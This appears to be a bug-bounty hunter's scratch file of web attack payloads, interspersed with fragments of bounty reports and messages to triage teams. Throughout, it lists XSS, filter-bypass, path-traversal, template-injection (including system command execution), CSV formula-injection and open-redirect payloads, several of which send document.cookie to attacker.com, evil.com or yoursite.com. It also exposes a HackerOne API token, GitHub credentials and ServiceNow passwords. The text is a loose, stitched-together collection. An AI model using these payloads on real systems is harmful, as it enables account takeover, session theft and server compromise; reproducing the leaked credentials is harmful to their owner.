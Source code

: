 # -details-open-ontoggle-confirm-Rynexxx-
">'>&lt;details/open/ontoggle=confirm('Rynexxx')>
<marquee>Hello!</marquee>

The email verification check should be enforced at this step of the process as well.


template=../../../../../../../etc/passwd&type=text&top-text=ad&bottom-text=asd

[wpvideo%20w0MiG12Exx1\"><svg/onload=prompt(document.domain)>]

<p><a href=\"javascript&colo;self[%27al%27%2b%27ert%27]('XSS')\" target=\"_blank\" olabma=\"self['al'+'ert']()”>
callback?success=javascript:alert(1)"><svg onload=prompt&#0000000040document.domain)> 


"<style>.flex-line-item-quantity>p{font-size:0}.flex-line-item-quantity:after{content:'1337\0000a0of\0000a01337';margin-left:420px;}</style>"@gmail.com

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>

xss to open redirect 

<head>
<meta http-equiv=“refresh” content=“0; url=http://YOUR-DOMAIN.com” />
</head>

svg></p><style><g title="</style><img src onerror=alert(document.domain)>">

<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">

<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">

"><img src=x onerror=alert(1337)>//{{7*7}}

"><img src=x onerror=alert(69)>

exiftool -Comment='<H1>Hello</H1>' Untitled.png

<p><a href=\"javascript&colo;self[%27al%27%2b%27ert%27]('XSS')\" target=\"_blank\" olabma=\"self['al'+'ert']()”>
callback?success=javascript:alert(1)<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(1)' />'>


csp bypass 
<p><a href=\"javascript&colo;self[%27al%27%2b%27ert%27]('XSS')\" target=\"_blank\" olabma=\"self['al'+'ert']()”>

callback?success=javascript:alert(1)

"><img src=x onerror=alert(69)>{{7*7}}

<script>alert('Skyfall')</script>

alert('Skyfall')</script>

<script>
  var attributes = {"email":"some@email.com</script><script>alert(document.domain)//"}
</script>


preview.php?file=../../../../../passwd%00

https://"><imgsrc=xonerror=alert(69)>test.com

">'><details/open/ontoggle=confirm(1337)>{{7*7}}

User-Agent: '>"><script src=https://rynex.xss.ht></script>

<a href=”example://browse/https://google.com”>click here</a>

</script><script src=/ñ.xyz>

<a href=”example://browse/javascript://%250dalert(1)”>click here</a>

<svg onload=prompt&#0000000040document.domain)> Hex: <svg onload=prompt&#x000000028;document.domain)>

%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//

Hello!
@
Been a while since your first sent message. I am not rushing😊.Take your time.
I just want to say that if this an intended behaviour than its a straight privacy violation by hackerone as per hackerone's data policy.
Regards,

Hello team!
Not heard from you in a while.
I am just pinging you to see additional information I shared above.
Regards,

test<svg+on+onload%3D%28alert%29%28document.domain%29>

<script src=//u00f1.xyz>

https://drive.google.com/file/d/1jbq1sL84vVZHUES8I-rJjRXAdEMlqkOW/view


<input type=x>{{7*7}}

/login?redirect=\\\evil.com

login?redirect=%5C%5C%5Cevil.com

<input><input"/onmouseover="confirm(document.domain);//"onload=onload><input>

"oncut="alert()

<dialog open onclose = "a=[location.origin, '@mysite
.com',location.pathname,cookie].join``;location=a;"><form method=dialog><button>XSS</button></form><br>

<dialog open onclose = prompt(document.cookie)><form method=dialog><button>XSS</button></form>

audit2.ftrackapp_admin_7@iaminspectiv.com

{{['id']|filter('system')}}

{{self}}

{{source("\etc\hosts")}}  (twig lfi)

${this.evaluate("9*9")

Hi Team,
teamname pays bounty on finding the bugs.
Could you please update me about the bounty ??
Best Regards !
Rynexx

nnscope tool usage 
bbscope h1 -t 8Zv9AveNWJ9yLnS5pBUU9asszTUmyszfqodCwuq2SCw= -u rynexx -o u -p | sort -u
h1 api token
8Zv9AveNWJ9yLnS5pBUU9asszTUmyszfqodCwuq2SCw=

<blink><marquee><a href="//anything">XSS</a></marquee></blink>

"{{'/etc/passwd'|file_excerpt(1,30)}}"@

{{['cat\x20/etc/passwd']|filter('system')}}

"><img src=x onerror=alert(69)>//{{7*7}}<input type=x><a href="https://evil.com">click</>

'()"><img src="x"><a href="https://evil.com">click</>

<input type=x>{{7*7}}

<img src=x onerror=alert(69)>.jpg

_www.%40ebаy.com_ 

passwd&ifl=/etc/

/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd

/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/

obj

"<h1>Arbitrary HTML</h1><script>alert('No CSP Support :(')</script>"

https://hackerone.com/reports/29331 username change report id
"><script src=https://rynex.xss.ht></script>

{{7*7}}<input type=x>

github credentials

rynexxxxxxxxxxxxxxxx
51629498@Rnx

rynex″);window[‘alert’](1)//

redirect?url=https://evil.com

_url=https://evil.com

%27%22()%26%25%3Cacx%3E%3CScRiPt%20%3Ealert(9868)%3C/ScRiPt%3E

I got a Open redirection while saving account setting . This could lead to serious issues .
Endpoint :- https://moneybird.com/user/edit?return_to=//evil.com
Reproduce :-

    Visit https://moneybird.com/user/edit?return_to=//evil.com and click on Save .
    You will be take to evil.com .


"hello<form/><!><details/open/ontoggle=alert(1)>"@gmail
.com
To prevent open redirect attacks, it is important to validate user-submitted redirect targets. This can be done by comparing the target URL against a list of approved redirect targets, or by checking that the target URL belongs to the same domain as the original website. It is also a good idea to encode the target URL to prevent any malicious code from being executed.

o Reproduce the issue:
1- Create a Ticket with the following name ":";-3+3+cmd|' /C calc'!D2.
2- Export it to CSV
3- Open the CSV. Check attached picture to see the executed code.

<iframe src=//malicious-website.com/toplevel.html></iframe>

<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>

<form method=’POST' action=’http://attacker.com/capture.php' id="login-form">Username :<br><input type=’text' name=’username' value=’’><br>Password :<br><input type=’password’ name=’password' value=’’><input type=’submit' value=’submit’></form>

<test><img src=x onerror=alert(document.cookie)>

<font color="red">Test</font>

/preview.php?document=../../../../etc/passwd

<style amp-custom>body{color:red}</styleX>
<meta name="</style><img src='x'onerror=alert(1)">

">'><details/open/ontoggle=confirm(007)><input type=x>{{7*7}}

python sqlmap.py -r dod.txt --dbs --level 3 risk 3 -v3

<script>window.location.replace("http://evil.com");</script>

exiftool -Comment='<H1>Hello</H1>' Untitled.png

<tr><td>Name</td><td><input type="text" name="advisor_name" value="<script>alert("test")</script>"></td></tr>

How are the discussions going? :)
Cheers,

hi team
ask me if you need additional information and I can make a video if you think this is incomplete



Card Type	Card Number	Exp. Date	Country/Currency	Result
Amex	374245455400126	05/2023		Success
Amex	378282246310005	05/2023		Failure
China Union Pay	6250941006528599	06/2023	CN; USD	Success



Your instance URL:https://dev107844.service-now.com

Username: aes.creator
Current password: @4MIXrzpt$V9

Your instance is ready!

Your instance URL:https://dev119435.service-now.com

Username: admin
Current password: ez!T*bhMB1B5
"><script>alert("test")</script>

test';alert`1`;a='test

<form action="evil.com" method="get">
2  <input type="email" id="email" name="email"><br><br>
3  <input type="pass" id="password" name="password"><br><br>
4  <input type="submit" value="Submit">
5</form>

"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://evil.com"</script>

"><img src=x onerror=alert(document.domain)>//{{7*7}}
<iframe/src='javascript:alert(1)'></iframe>
“><svg/onload=alert(1)>”@x.y
"><img src=x [onerror=alert("XSS_by_devops")>//](https://127.0.0.1/)
<script> alert(2)</script>

<input type=x><a href="https://evil.com">login</a><img+src=x+onerror=alert(1)>

htmli to open redirect 
<head>
<meta http-equiv=“refresh” content=“0; url=http://YOUR-DOMAIN.com” />
</head>

"><svg/onload=prompt(1)>

<select><style><script>alert(1)</script></style></select>


%0d%0a</script><img+src=x+onerror=alert(1)>

##Impact


XSS Cloudflare Bypass

<svg onload=alert%26%230000000040"1")>

<svg on onload=(alert)(document.domain)>

<svgononload=( alert )( document.domain )>

<a"/onclick=(confirm)(document.cookie)>Click Here!

Hex: <svg onload=prompt%26%23x000000028;document.domain)>

r"ononmouseover=( alert )( document.domain )// 

<svg%0Aonauxclick=0;[1].some(confirm)// (1/4)

<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>

<a"/onclick=(confirm)()>Click Here!

"><svg%20onload=alert%26%230000000040"1")>


<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>


This issue can be used to bypass email verification on signup. Attackers can create account on behalf on any person without having access to the email account. 


%0d%0a</script><h1+onmouseover=alert(document.cookie)>MOUSEOVER_XSS</h1>


%0d%0a</script><img+src=x+onerror=alert(document.domain)>

%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E


%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E '


#/redir?url=javascript:alert("DOM XSS on: " + document.domain)request?loc=a:%27%22/%3Ea%22%3E%3Caa%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3Een_AW&WT.svl=


<img src=1 onerror='alert(document.cookie)' />'>

/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27


<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>

<script type='text/javascript'>
url='https://vap3ord1.lijit.com/res/sovrn.containertag.new.min.js…252de1&loc=https://www.urbandictionary.com/define.php?term=#asdf'-alert(document.domain)-'',


</scrip</script>t><img src =q onerror=prompt(8)><a href=evil.com>click</a>

echo testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"

c

[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\61\51")()

[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\144\157\155\141\151\156\51")()

[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()




"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><image/src/onerror=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(1);</script>
<script\x0Dtype="text/javascript">javascript:alert(1);</script>
<script\x09type="text/javascript">javascript:alert(1);</script>
<script\x0Ctype="text/javascript">javascript:alert(1);</script>
<script\x2Ftype="text/javascript">javascript:alert(1);</script>
<script\x0Atype="text/javascript">javascript:alert(1);</script>
'`"><\x3Cscript>javascript:alert(1)</script>        
'`"><\x00script>javascript:alert(1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<body src=1 href=1 onerror="javascript:alert(1)"></body>


<marquee>test</marquee>

<a href=https://google.com/>CLICK HERE</a>

arjun -u https://api.example.com/endpoint -m POST

javascript://x.com%0aalert(1);//

<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">

java%0d%0ascript%0d%0a:alert(0)

javascript://%250Aalert(1)//?1

javascript://%250A1?alert(1):0

y3ipe%3cimg%20src%3da%20onerror%3dalert('hacked')%3ek87ss

%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//

on<script>load=prompt(document.domain);>"

620008931446652928/JBuEvzz5

%F0%9F%98%82<%3CsVg/onload%F0%9F%98%82=/svg/onload%3Dsvg/onmouseOver=confirm`1`><!--%F0%9F%98%82//=


<![endif]-- onerror='<![endif]-->' onload='c

"javascript:void(0)">


"><a href="#" onclick="document.location='http://yoursite.com/whateveryouwant.php?cookie=' +escape(document.cookie);"><Click Me></a></script>

<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>



_uri=javascript:prompt(document.cookie)&return_to=

/redirect?url=javascript://%250Aalert(document.cookie)


<a href="+document.URL+" style='color:#fff !important;font-size:10px'>


![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)


">'><details/open/ontoggle=confirm('Rynexxx')>

callback?success=javascript:alert(1)

<a onclick="alert(document.domain);">/


<script>alert(document.cookie)</script>

">&#60;"><img src=x onerror=prompt(document.domain)> img src=x onerror=prompt(&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#100;&#111;&#109;&#97;&#105;&#110;)>

">&#60;"><img src=x onerror=prompt(document.domain)> img src=x onerror=prompt(&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#100;&#111;&#109;&#97;&#105;&#110;)>444">&#60;">&#60;img src=x onerror=prompt(document.domain)> img src=x onerror=prompt(document.domain)>

<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(localStorage)' />'>

<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(1)' />'>

██████████

a<img src=-$.getScript(atob(aHR0cHM6Ly94bi0tMXhhLnN1L3BheWxvYWRzL25ld2FkbWluLmpz))->

SELECT `“><img src=x onerror=alert(document.domain)> "' Style=position` FROM SyntheticCheck

{{constructor.constructor('alert(1)')()}}

<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(localStorage.getItem(‘key’))' />'>


<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(JSON.stringify(localStorage))' />'>


<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(localStorage)' />'>

<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(document.cookie)' />'>


<script>alert(localStorage)</script>

<script>alert(1337)</script>

\u003c![endif]-- onerror='\u003c![endif]--\u003e' onload='\u003cimg src=1 onerror='alert(1)' /\u003e'\u003e


<![endif]-- onerror='<![endif]-->' onload='<img src=1 onerror='alert(1)' />'>

<![endif]-- onerror="<![endif]-->" onload="<img src=1 onerror='alert(document.location)' />">

<a href=evil.com>click</a><input type=x>

<math>
<!-- up to FF 13 -->
<maction actiontype="statusline#http://google.com" xlink:href="javascript:alert(2)">CLICKME</maction>

{{7*7}}<img src=x onerror=alert('XSS');>

<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>

<input type=x>

<marquee>Rynex</marquee> 

<a href=https://google.com/>CLICK HERE</a>

1"><div+onload=alert()>XSS-FOREVER</div>

1\"><x+onpointerover=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>

1\"><x+onpointerrawupdate=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>

<input type=x>{{7*7}}

continue_url=redacted.com&continue_url=javascript:alert(1)

&continue_url=java%09Script:fetch(%22https://redacted.com/path/to/userinfo%22).then(a%3D%3Ea.json()).then(a%3D%3Econsole.log(a.response));//


"><svg onload=document.forms[1].action='https://<YOUR_SERVER>/?Hacked'>

eg: <!<script>confirm(1)</script>

<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>

<svg onload\r\n=$.globalEval("al"+"ert()");>

<a href=&#01javascript:alert(1)>

<a href=javascript&colon;confirm(1)>

<a href="jav%0Dascript&colon;alert(1)">


<svg><!--?php "--><script>confirm(20)</script>?&gt;</svg>

<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<p><img src=x style=font:"'onerror='{font:alert(document.cookie)}></p>

10000&</script><script>alert(1)</script>"

"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS

%(branch)s:alert(1);//https://mattermost.com

javaScript:alert(document.cookie);//confirm(1)

<a href="%01javascript:alert(1)">javascript:alert(1)</a>

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">


/passwd&type=text&top-text=ad&bottom-text=asd

">'><details/open/ontoggle=confirm('XSS')>

{{7*7}}<img src=x onerror=alert('XSS');>

xss%22%3E%3Cimg+src=x+onerror=alert(document.domain)%3E

{{ [].class.base.subclasses() }}

{{constructor.constructor('alert(1)')()}}

{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}

{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}


{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}


<img src=x onerror=alert('XSS');>

dom xss 
  
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>

  
<image/src/onerror=prompt(8)>


</scrip</script>t><img src =q onerror=prompt(8)>


element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'


<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>


<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe


//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//


<!--<img src="--><img src=x onerror=alert(123)//">


<video src=1 onerror=alert(1)>



<a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1">test</a>


perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out


<A HREF="http://66.102.7.147/">XSS</A>



<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>



<var onmouseover="prompt(1)">On Mouse Over</var>



<img src=foo.png onerror=alert(/xssed/) />



<font style='color:expression(alert(document.cookie))'>



"/></a></><img src=1.gif onerror=alert(1)>




'>><marquee><h1>XSS</h1></marquee>




<img src="javascript:document.vulnerable=true;">



<img src="blah"onmouseover="document.vulnerable=true;">



<marquee onstart='javascript:alert('1');'>=(◕_◕)=

<pre data-sourcepos="&#34; href=&#34;x&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34 onload=&#34;alert(document.location.href)&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>




<pre data-sourcepos="&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34><iframe srcdoc=&#34;<script src=https://apis.google.com/complete/search?client=chrome&amp;q=alert(document.domain);//&amp;callback=setTimeout></script>&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>

